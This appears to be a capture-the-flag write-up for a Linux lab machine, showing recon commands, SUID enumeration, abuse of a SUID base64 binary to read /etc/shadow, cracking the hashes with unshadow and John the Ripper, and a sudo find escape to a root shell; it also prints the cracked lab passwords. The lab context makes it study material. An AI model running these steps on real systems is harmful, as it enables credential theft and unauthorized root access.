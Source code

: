 ### ***Linux Capstone Challenge***
RECON:

```jsx
cat /etc/passwd | grep home `(to list the user)`
uname -a  
cat /proc/version `(to check OS info)`
sudo -l   `(to check the sudos)`

```

![image](https://github.com/user-attachments/assets/0d9e9da3-e1ec-41c2-a78d-1482eaf09fc9)


checking suid 

```jsx
find / -type f -perm -04000 -ls 2>/dev/null
find / -type f -perm -u=s -ls 2>/dev/null
```

![image](https://github.com/user-attachments/assets/c1563691-76ef-44f5-bd2a-55e3f7b5759f)


since we have base64 we can read files by setting LFILE as shown below

```jsx
LFILE=/etc/passwd
base64 "$LFILE" | base64 --decode

LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode

`copy the content to passwd.txt ad shadow.txt and use unshadow`

unshadow passwd.txt shadow.txt > passwords.txt

`now use passwords.txt file as an input for john to crack the password`

john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

passwords found:

Password1        (missy)

Penny123         (leonard)

![image](https://github.com/user-attachments/assets/188f95e6-8865-4562-bc86-9afc3e280557)


switch user:

```jsx
su missy
cd /home/missy/Documents
cat flag1.txt

```

![image](https://github.com/user-attachments/assets/5d3a6a57-4a02-4bfe-923d-4a25c10f8dfe)


For Missy user find sudos:

```jsx
sudo -l
sudo find . -exec /bin/sh \; -quit
cd /home/rootflag
cat flag2.txt
```

![image](https://github.com/user-attachments/assets/1002eda2-ead5-450c-8248-0460b91e535b)


other way:
![image](https://github.com/user-attachments/assets/9a113d36-4cdc-4e1d-97ad-7c0fbdb62dbc)
